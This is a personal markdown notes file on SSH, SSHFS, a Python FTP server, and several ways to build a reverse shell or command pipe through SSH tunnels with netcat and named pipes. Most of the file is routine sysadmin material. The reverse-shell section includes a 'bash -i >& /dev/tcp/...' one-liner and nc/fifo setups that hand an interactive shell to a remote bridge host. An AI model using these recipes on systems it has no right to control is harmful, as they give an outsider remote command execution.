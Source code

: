 ## SSH

- `-X`  Enables X11 (display) forwarding. (But this allows an attacker to listen to my keystrokes.)
- create a pipe between machines

## SSHD

### chroot jail
_See sysadmin/chroot-jail.md_

## SSHFS

```bash
# Mount a remote directory:
sshfs ${user}@${host}:${path} $mydir
# "path" can be absolute or relative to the user's $HOME
# "user@host" can be an alias from .ssh/config
# "mydir" should be an empty local directory

# Unmount the directory:
fusermount -u $mydir 
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbNTU5NjA3ODU5LC04NDIxMjMzMzgsMTcyMT
I5MDgzMF19
-->

## FTP

```bash
python -m pyftpdlib [--help]
python -m pyftpdlib -w -u <uname> -P <pass>
```

## Reverse Shell
### With SSH tunnels
First, start listening on the server:
```bash
nc -l -k localhost 8889
```
Then on the target machine:
```bash
# Open SSH tunnel
ssh -N -L 8889:localhost:8889 qa -f # local -> remote
# Start shell
sudo bash -c 'bash -i >& /dev/tcp/127.0.0.1/8889 0>&1'
```
### Echo only
```bash
# target terminal A
ssh -N -R 8888:localhost:8888 qa
# target terminal B
nc -l localhost 8888
# bridge server
nc localhost 8888 # Then enter text
```
## Execute only
```bash
# target terminal A
ssh -N -R 8888:localhost:8888 qa
# target terminal B
mkfifo nci
nc -l localhost 8888 >nci
# target terminal C
/bin/bash -i 0<nci
# brige server
nc localhost 8888 # then type commands, whose output appears on target:C
```
## Echo on bridge only
```bash
# target terminal A
ssh -N -L 8889:localhost:8889 qa
# bridge server A
nc -l -k localhost 8889
# target terminal B
nc localhost 8889 # then type text which appears in bridge:A
```
...with a fifo:
```bash
# target terminal A
ssh -N -L 8889:localhost:8889 qa
# target terminal A
mkfifo nco
nc localhost 8889 <nco
# bridge server A
nc -l -k localhost 8889
# target terminal B
echo foo > nco # This only works for the first echo. Why?
```
## Execute and echo back
```bash
# target terminal F
ssh -N -L 8889:localhost:8889 qa
# target terminal A
ssh -N -R 8888:localhost:8888 qa
# target terminal B
mkfifo nci
nc -l -k localhost 8888 >nci
# target terminal C
mkfifo nco
nc localhost 8889 <nco
# target terminal D
/bin/bash -i 0<nci >nco
# bridge server A
nc localhost 8888 # then enter commands, whose output will appear on bridge:B
# bridge server B
nc -l localhost 8889
```
